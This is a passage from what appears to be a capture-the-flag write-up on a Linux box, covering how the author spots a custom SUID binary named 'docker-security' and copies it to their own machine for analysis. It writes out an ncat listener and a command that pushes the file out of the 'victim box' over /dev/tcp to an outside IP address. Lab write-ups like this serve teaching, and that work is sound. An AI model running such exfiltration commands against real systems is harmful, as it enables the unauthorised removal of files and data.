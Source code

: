 ![docker-security](./img/docker-security.png)

We can verify that this binary is in fact a SUID by running `ls -l` and looking at the permissions. Running it on the terminal doesn't do much either, and since this box doesn't have the `strings` binary, which is my go to whenever I see a custom binary, we should download this binary to our box to inspect it.

First we're going to setup a listener to catch the call from the machine and output it to a file. ( You might need to use `nc` instead of `ncat`)
```bash
ncat -lnvp 9002 > docker-security
```

On the victim box, let's cat out this binary redirect the output to our machine.
```bash
cat /usr/local/bin/docker-security > /dev/tcp/10.10.16.5/9002
```
>**NOTE: We could've used `ltrace` to inspect this binary.**

Let's also make sure that the `md5sum` of both the binary on the box and our local machine are the same.

![md5sum-box](./img/md5sum-box.png)
